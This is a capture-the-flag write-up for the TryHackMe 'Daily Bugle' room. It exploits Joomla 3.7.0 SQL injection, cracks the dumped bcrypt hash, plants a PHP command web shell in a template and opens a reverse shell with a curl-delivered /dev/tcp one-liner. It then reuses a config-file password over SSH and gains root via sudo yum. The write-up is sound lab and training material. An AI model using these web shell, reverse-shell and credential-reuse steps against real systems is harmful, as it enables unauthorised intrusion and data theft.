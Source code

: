 # Daily Bugle

[Daily Bugle](https://tryhackme.com/room/dailybugle)

## Solution

- nmap scan 22, 80, 3306

3306 is for mysql

### Task 1

We can access the website on port 80 and if we read the article it says that
`SpiderMan` robbed the bank.

### Task 2

- What is the Joomla version?

I tried to use feroxbuster to enumerate some directories and tried to look into
sources, but I could not find a way to read the Joomla version. So I googled
"Joomla get version" and tried to search for something.

I found this question
`https://joomla.stackexchange.com/questions/7148/how-to-get-joomla-version-by-http`.
We can see the version from the path
`/administrator/manifests/files/joomla.xml`

The version is 3.7.0 is vulnerable to sql injection. I found
https://github.com/stefanlucas/Exploit-Joomla which managed to do the sql
injection. And we get the user.

```
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```

We can run hashid on the password hash to identify the hash mode.

```
hashid -m '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
```

The hash is bcrypy mode 3200 so we can use hashcat

```
hashcat -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /path/to/rockyou.txt
```

And we get `spiderman123`.

- bcrypt is very slow, so for the challenge you can also filter only 12 character passwords.

We can login as jonah on the http://<ip>/administrator page and then modify one
of the templates to include some php code that can help us (see
https://vulncheck.com/blog/joomla-for-rce).

I modified the `index.php` file by going to the nav menu Extensions ->
Templates -> Templates. Then choose the one that jonah created. And then modify
index.php by adding the following snippet.

```
<?php if (isset($_GET["cmd"])) system($_GET["cmd"]); ?>
```

After that we can curl a malicious payload and listen on nc

```
nc -lvnp 6969
```

```
curl -k 'http://<ip>/?cmd=%2Fbin%2Fsh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<host>%2F6969%200%3E%261'
```

Now we have access to the machine.

#### The user flag

We can view all the files in the server directory. An interesting one is
`/var/www/html/configuration.php`. It contains an entry `public $password =
'nv5uz9r3ZEDzVjNu';` We can try to login as other users with that password. For
example we can try to login as jjameson with that password with `ssh
jjameson@<ip>` and then provide the password.

#### The root flag

We can see what sudo privilages we have because we have jjameson's password
with `sudo -l` and we get:

```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

In the hint of the challenge https://gtfobins.github.io/gtfobins/yum/

Follow the instructions for (b) and you will have an interactive shell for root.
